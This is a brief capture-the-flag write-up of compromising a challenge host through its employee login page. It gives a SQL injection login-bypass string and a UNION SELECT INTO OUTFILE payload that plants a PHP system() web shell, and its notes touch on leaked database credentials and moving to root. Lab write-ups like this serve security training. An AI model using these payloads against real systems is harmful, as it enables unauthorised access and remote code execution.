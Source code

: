 ## target HOST: 94.237.58.148
## target OS: Debian

### nMap scan output:
nMap scan would not work on that host, and would just sit idleing...

# Exploitation
## Exploits used:
The ip address had a webpage running consisting of a employee login page, it was prone to a sql injection attack
which gave me access to a employee account
### SQL INJECTION:
**' or "1" = "1" -- -**

Inside the employee account, there was a search text field which also had a sql injection vulnerbility.
This time I was able to run a wide range of commands, the database was being run as **root** which had super privileges
i created a php remote code execution shell and accessed the file by using the url

**' union select 1, "<?php system($_REQUEST[0]); ?>", 3, 4, 5 into outfile "/var/www/html/dashboard/shell.php"  -- -**

the flag was found in the root directory which ended the challenge.

## Notes

There was also a config file within the html directory, accessing it revealed the credentials to the sql database. however i was not able to access it using **mysql**
it just kept hanging on me and wouldnt authenticate.

past this point you could have been able to load in a meterpreter payload or something alike and gained full control as **root**
